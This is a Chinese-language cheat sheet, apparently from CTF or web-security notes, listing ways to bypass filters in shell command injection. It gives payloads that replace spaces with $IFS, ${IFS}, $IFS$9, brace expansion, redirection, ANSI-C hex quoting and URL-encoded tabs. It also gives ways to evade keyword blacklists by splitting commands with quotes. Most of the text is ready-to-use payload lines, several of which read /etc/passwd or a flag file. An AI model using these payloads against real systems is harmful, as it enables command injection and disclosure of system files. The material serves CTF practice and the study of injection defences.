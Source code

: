 - `$IFS`、`${IFS}`、`$IFS$9`

环境变量 IFS（**I**nternal **F**ield **S**eparator，内部字段分隔符），默认情况下由`空格`、`制表符`和`换行符`组成，可通过`set`命令查看。

`${IFS}`使用`{}`可以避免出现变量名与其他字符连用的情况。`$9`是当前命令的第 9 个参数，通常为空。习惯上，使用`$IFS$9`可避免避免变量名连用，也不出现花括号。

```bash
cat$IFS/etc/passwd
cat${IFS}flag
cat$IFS$9flag
```

- [大括号扩展](https://wangdoc.com/bash/expansion#%E5%A4%A7%E6%8B%AC%E5%8F%B7%E6%89%A9%E5%B1%95)`{...}`

```bash
{cat,/etc/passwd}
```

- 重定向运算符

```bash
# 输入重定向
cat</etc/passwd

# 读写
cat<>/etc/passwd
```

- `$'string'`特殊类型的单引号（ANSI-C Quoting）

`$''`属于[特殊的单引号](https://www.gnu.org/software/bash/manual/bash.html#ANSI_002dC-Quoting)，支持转义字符。

```bash
# 十六进制
X=$'cat\x20/etc/passwd';$X

# 换行符
x=$'cat\n/etc/passwd';$x
x=$'cat\t/etc/passwd';$x
```

- 使用制表符

```bash
;ls%09-al%09/home
```

- 变量截取

### 绕过黑名单

- 单引号

```bash
w'h'o'am'i
wh''oami
```

- 双引号

```bash
w"h"o"am"i
wh""oami
```
